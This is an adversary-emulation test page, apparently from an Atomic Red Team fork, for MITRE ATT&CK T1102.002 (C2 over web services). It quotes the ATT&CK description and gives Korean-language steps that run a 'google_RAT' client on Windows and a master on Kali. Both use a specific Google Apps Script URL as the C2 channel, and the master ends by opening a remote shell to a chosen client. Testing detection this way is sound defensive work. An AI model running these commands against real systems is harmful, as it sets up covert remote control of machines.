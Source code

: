 # T1102.002A - Web Service: Bidirectional Communication
<blockquote>
This page was modified by A-FIRST
</blockquote>
<br/>

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1102/002/)
<blockquote>Adversaries may use an existing, legitimate external Web service as a means for sending commands to and receiving output from a compromised system over the Web service channel. Compromised systems may leverage popular websites and social media to host command and control (C2) instructions. Those infected systems can then send the output from those commands back over that Web service channel. The return traffic may occur in a variety of ways, depending on the Web service being utilized. For example, the return traffic may take the form of the compromised system posting a comment on a forum, issuing a pull request to development project, updating a document hosted on a Web service, or by sending a Tweet.

Popular websites and social media acting as a mechanism for C2 may give a significant amount of cover due to the likelihood that hosts within a network are already communicating with them prior to a compromise. Using common services, such as those offered by Google or Twitter, makes it easier for adversaries to hide in expected noise. Web service providers commonly use SSL/TLS encryption, giving adversaries an added level of protection. </blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 using Google Apps Script - google_RAT](#atomic-test-1--- C2--using-GAS-RAT)

<br/>

## Atomic Test #1 - C2 using Google Apps Script - google_RAT
C2 using Google Apps Script - google_RAT

**Supported Platforms:** Windows 

#### Run it with these steps! 

#### 아래 순서대로 진행
사전 설정 완료
+ 구글 계정 생성
+ Google Apps Script 설정
+ Google 스프레드 시트 설정 

클라이언트 
1. Open cmd.exe 
2. cd <test.py 위치>
3. python test.py -k test https://script.google.com/macros/s/AKfycbzVbXkfOAJTmzxSUDeeuyYW-RJ6CMrFzF8bWtXObtSQWMmzINoXgi2isks5S2m6q6X7kw/exec

공격자 서버

4. cd /home/kali/바탕화면/google_RAT-master
5. python3 master.py -k test https://script.google.com/macros/s/AKfycbzVbXkfOAJTmzxSUDeeuyYW-RJ6CMrFzF8bWtXObtSQWMmzINoXgi2isks5S2m6q6X7kw/exec    
6. lsc
7. shell (uuid)

<br/>
